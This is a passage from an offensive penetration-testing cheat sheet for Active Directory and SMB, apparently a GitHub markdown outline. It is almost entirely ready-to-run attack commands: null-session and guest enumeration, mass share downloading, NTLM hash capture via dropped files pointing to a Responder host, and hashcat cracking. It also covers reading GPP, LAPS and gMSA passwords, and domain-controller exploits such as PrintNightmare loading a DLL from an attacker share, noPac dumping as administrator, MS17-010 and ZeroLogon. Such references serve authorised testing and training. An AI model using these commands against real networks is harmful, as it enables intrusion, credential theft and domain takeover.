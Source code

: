         *   [Child-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-sid-hijacking/) → SID History Attack
        *   [Cross-Forest](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/trust-ticket/)
*   SMB
    *   Null / Guest Binding
        *   `nxc smb [IP] -u '' -p ''`
        *   `nxc smb [IP] -u Guest -p ''`
    *   User Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --users --groups --pass-pol`
        *   `nxc smb [IP] [AUTH_STRING] --rid-brute 10000`
    *   Shares Enumeration
        *   `nxc smb [IP] [AUTH_STRING] --shares`
        *   `smbclient -L \\[IP] [-U [USER%PASS]]`
        *   Data Access
            *   SMBClient Native         → `smbclient \\\\[IP]\\[SHARE] [-U [USER%PASS]]`
            *   Impacket Client            → `smbclient.py [AUTH_STRING]` → `help` / `shares`
            *   Upload Files                   → `put [SRC]`
            *   Recursive Download   → `nxc smb [IP] [AUTH_STRING] -M spider_plus -o DOWNLOAD_FLAG=True`
            *   Single Download          → `nxc smb [IP] [AUTH_STRING] --get-file '[FILE]' [OUT] --share "[SHARE]"`
            *   Local Mounting            → `mount -t cifs -o "username=[USER]" //[IP]/[SHARE] /mnt/[SHARE]`
        *   LLMNR
            *   [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft) → Share File Dropping
            *   `nxc smb [IP] [AUTH_STRING] -M slinky -o SERVER=[RESPONDER_IP]`
            *   `nxc smb [IP] [AUTH_STRING] -M scuffy -o SERVER=[RESPONDER_IP]`
            *   Cracking → `hashcat -m 5600`
    *   RPC Access
        *   Null / Guest Binding
            *   `rpcclient -U "%"      -N [IP]`
            *   `rpcclient -U "Guest%" -N [IP]`
        *   Enumeration
            *   `rpcclient -U '[USER]%[PASS]' [IP]`
            *   Queries
                *   `enumdomusers`   → `queryuser  [USERNAME]` 
                *   `enumdomgroups` → `querygroup [GROUP_NAME]`
                *   `querydispinfo` / `enumprinters`
                *   `querydominfo`   / `srvinfo` / `getdompwinfo`
    *   GPP / LAPS / GMSA Read
        *   `nxc smb  [IP] [AUTH_STRING] -M gpp_password`
        *   `nxc smb  [IP] [AUTH_STRING] --laps`
        *   `nxc ldap [DC_IP] [AUTH_STRING] --gmsa`
    *   SCCM Abuse
        *   `sccmhunter.py smb -u [USER] -p [PASS] -d [DOMAIN] -dc-ip [DC_IP] -save`
        *   `sccmhunter.py show -all`
        *   [Admin Hunting](https://www.thehacker.recipes/ad/movement/sccm-mecm/lateral-movement)
        *   [Other Exploits](https://www.thehacker.recipes/ad/movement/sccm-mecm/privilege-escalation)
    *   DC Exploits
        *   `scan() smb [IP] [PORT]` → Exploit Research
        *   `nxc smb [IP] [AUTH_STRING] -M printnightmare -M spooler -M zerologon -M nopac -M smbghost -M ms17-010`
        *   [PrintNightmare](https://github.com/cube0x0/CVE-2021-1675.git) → `CVE-2021-1675.py [AUTH_STRING] '\\[KALI_IP]\Share\[EVIL.dll]'` → MSFVenom / [AddUser Cross-Compile](https://github.com/newsoft/adduser)
        *   [NoPAC](https://github.com/Ridter/noPac.git)                  → `noPac.py [AUTH_STRING] --impersonate administrator -use-ldap -dump`
        *   MS17-010                → `use exploit/windows/smb/ms17_010_psexec`
        *   [MS14-068](https://github.com/swisskyrepo/InternalAllTheThings/blob/main/docs/active-directory/CVE/MS14-068.md)             → Missing `KB3011780`
        *   [PrivExchange](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/PrivExchange/)     → User Shell with Exchange Mailbox
        *   [ZeroLogon](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/ZeroLogon/)
        *   SMBGhost
    *   NTLM Poisoning